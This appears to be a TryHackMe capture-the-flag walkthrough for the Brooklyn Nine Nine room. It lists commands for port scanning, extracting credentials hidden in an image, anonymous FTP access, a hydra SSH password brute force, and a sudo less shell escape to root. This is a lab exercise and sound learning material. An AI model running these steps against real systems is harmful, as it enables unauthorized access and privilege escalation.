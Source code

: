 # BrooklynNineNine - solution
- Link: https://tryhackme.com/room/brooklynninenine
- Difficulty: `easy`

## Host recognition
- `cd nmap`
-  `nmap --open <IP> -oG scan`
 -  `extractPorts scan` (custom command) to copy open ports
- `nmap -sCV -p21,22,80 <IP> -oN ports`

## Port 80 - website recognition
- `wget http://<IP>/brooklyn99.jpg` to download the img
- `stegcracker brooklyn99.jpg` to crack the passphrase
- `steghide extract -sf brooklyn99.jpg`
- Extracted credentials, saved them in `/credentials` 

## Port 21 - ftp-anon: anonymous FTP login allowed
- `cd content`
- `ftp <IP>` (name: `anonymous`, password: `<Enter>`)
- Inside the FTP shell:
  - `ls`
  - `get note_to_jake.txt` to download the resource
- `cat note_to_jake.txt` 
- Found likely users: `amy` `holt` `jake`

## Port 22 - SSH 
- `hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://<IP>`
- Cracked `jake`'s SSH password, saved in `/credentials` 
- `ssh jake@10.10.67.99` (password: `<password`)
- Inside the SSH shell:
  - `pwd` (we are into `/jake`)
  - `cd ..` to come back into `/home` folder
  - Found `/amy` `/holt` `/jake` folders
  - `cd holt`
  - `cat user.txt` 
    - Found the `USER FLAG`
  
## Port 22 - SSH - Priviledges escalation
- Inside the SSH shell:
  - Cannot access `/root`, so:
  - `find / -perm -4000 2>/dev/null` to find binaries 
  - `sudo -l` to discover which binary the active user may run as superuser
  - Found `/usr/bin/less`
- Checked it on https://gtfobins.github.io and found how to exploit the binary
- Inside the SSH shell:
  - `sudo less /etc/profile`
  - `!/bin/sh`
  - `whoami` to check if I'm the root user now
  - `cd /root`
  - `cat root.txt` 
    - Found the `ROOT FLAG`